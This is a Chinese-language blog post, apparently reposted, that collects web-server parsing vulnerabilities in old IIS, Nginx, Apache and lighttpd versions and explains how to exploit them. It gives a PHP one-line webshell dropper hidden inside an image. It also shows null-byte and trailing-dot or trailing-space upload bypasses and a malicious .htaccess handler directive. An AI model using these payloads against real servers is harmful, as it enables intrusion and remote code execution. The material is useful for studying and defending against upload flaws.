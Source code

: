 ```yaml
---
layout: post
title: 服务器解析漏洞汇总
categories: Web安全
description: 服务器解析漏洞
keywords: 漏洞,解析漏洞,IIS,Nginx,Apache
---
```


### IIS 6.0

#### 目录解析：/xx.asp/xx.jpg  xx.jpg可替换为任意文本文件(e.g. xx.txt)，文本内容为后门代码

IIS6.0 会将 xx.jpg 解析为 asp 文件。

#### 后缀解析：/xx.asp;.jpg     /xx.asp:.jpg(此处需抓包修改文件名)

IIS6.0 都会把此类后缀文件成功解析为 asp 文件。

（站长评论：IIS6.0解析漏洞的成因，可以查阅罗哥写的一篇短文：IIS文件名解析漏洞扼要分析）

{/xx.asp:.jpg 此类文件在Windows下不允许存在，:.jpg被自动除去，剩下/xx.asp}

（站长评论：发现错误，并不是不允许存在，这种路径叫做“NTFS数据流”，具体见：IIS6使用冒号上传漏洞，发现IIS6漏洞(上传利用) 底下的评论）

#### 默认解析：/xx.asa    /xx.cer   /xx.cdx

IIS6.0 默认的可执行文件除了 asp 还包含这三种

（站长评论：这种主要是由于在 IIS 默认配置中，这几个后缀默认由 asp.dll 来解析，所以执行权限和 .asp 一摸一样，你可在配置中自行删除该后缀，以防止安全隐患）

此处可联系利用目录解析漏洞 /xx.asa/xx.jpg 或 /xx.cer/xx.jpg 或 xx.asa;.jpg

### IIS 7.0/IIS 7.5/Nginx <=0.8.37

IIS 7.0/IIS 7.5/Nginx <=0.8.37

在默认Fast-CGI开启状况下,在一个文件路径(/xx.jpg)后面加上/xx.php会将 /xx.jpg/xx.php 解析为 php 文件。

常用利用方法： 将一张图和一个写入后门代码的文本文件合并 将恶意文本写入图片的二进制代码之后，避免破坏图片文件头和尾

e.g.  copy xx.jpg/b + yy.txt/a xy.jpg

```
/b 即二进制[binary]模式

/a 即ascii模式 xx.jpg正常图片文件

yy.txt 内容 <?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>

意思为写入一个内容为 <?php eval($_POST[cmd])?> 名称为shell.php的文件
```

找个地方上传 xy.jpg ,然后找到 xy.jpg 的地址，在地址后加上 /xx.php 即可执行恶意文本。

然后就在图片目录下生成一句话木马 shell.php 密码 cmd

### Nginx <=0.8.37

在Fast-CGI关闭的情况下，Nginx <=0.8.37 依然存在解析漏洞

在一个文件路径(/xx.jpg)后面加上%00.php会将 /xx.jpg%00.php 解析为 php 文件。

（站长评论：从 /test.jpg/x.php 演变过来的，具体可以参考：Ngnix 空字节可远程执行代码漏洞）

### Apache

后缀解析：test.php.x1.x2.x3

Apache将从右至左开始判断后缀，若x3非可识别后缀，再判断x2，直到找到可识别后缀为止，然后将该可识别后缀进解析

test.php.x1.x2.x3 则会被解析为php

经验之谈：php|php3|phtml 多可被Apache解析

（站长评论：关于 apache 解析漏洞可以查阅“Apache 漏洞之后缀名解析漏洞”）

### 其他一些可利用的

在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点，这也是可以被利用的！

在向一台windows主机上传数据时，你可以抓包修改文件名，在后面加个空格或点，试图绕过黑名单，若上传成功，最后的点或空格都会被消除，这样就可得到shell。

我记得Fck Php 2.6就存在加空格绕过的漏洞。{Linux主机中不行，Linux允许这类文件存在}

如果在Apache中.htaccess可被应用（Apache的配置文件httpd.conf中对目录的AllowOverride设置为All时，apache会应用目录下.htaccess中的配置 By sfasfas），

且可以被上传，那可以尝试在.htaccess中写入:

<FilesMatch “shell.jpg”> SetHandler application/x-httpd-php </FilesMatch>

shell.jpg换成你上传的文件，这样shell.jpg就可解析为php文件

### lighttpd

xx.jpg/xx.php

[Add by El4pse]

PS:我并不保证我写的全对哦，如果有错的或遗漏的，请各位朋友帮忙纠正一下，谢谢

##### 以上转载于：<http://www.cnseay.com/806/>
